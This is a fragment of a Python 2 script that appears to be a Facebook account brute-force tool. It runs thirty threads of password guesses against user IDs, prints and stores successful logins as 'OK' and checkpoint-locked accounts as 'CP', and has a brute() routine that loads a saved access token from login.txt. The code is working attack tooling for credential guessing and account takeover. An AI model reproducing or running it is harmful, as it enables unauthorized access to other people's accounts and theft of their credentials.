 																		print '\033[0;92m[OK] \033[0;39m '+ user + ' \x1b[0;36;39|\033[0;39m ' + pass8 + '\033[0;39m | \033[0;39m' + b['name']

																		oks.append(user+pass8)

																	else:

																		if 'www.facebook.com' in q["error_msg"]:

																			print '\x1b[0;91;39[CP] \033[0;39m ' + user + '\x1b[0;36;39|\033[0;39m ' + pass8 + '\033[0;39m | \033[0;39m' + b['name']

																			cek = open("out/CP.txt", "a")

																			cek.close()

																			cekpoint.append(user+pass8)

																	

		except:																		

			pass

		

	p = ThreadPool(30)

	p.map(main, id) 

	

	print '\033[0;39;40m[•] Process Has Been Completed\033[0;39m....'

	print "\033[0;39;40m[+] Total OK/\033[0;97mCP \033[0;39m: \033[0;39m"+str(len(oks))+"\033[0;39;40m/\033[0;39;40m"+str(len(cekpoint))

	print '\033[0;39;40m[+] CP File Has Been Saved : save/cp.txt'

	print """

\033[0;30;39───────────────────────────────────────────

           """

	raw_input("\n\033[0;39m[\033[0;39mExit\033[0;39m]")

	os.system('python2 a')

def brute():

    os.system('clear')

    try:

        toket = open('login.txt', 'r').read()

    except IOError:

        print '\033[0;39m[!] Token not found'

        os.system('rm -rf login.txt')

        time.sleep(0.5)

        masuk()
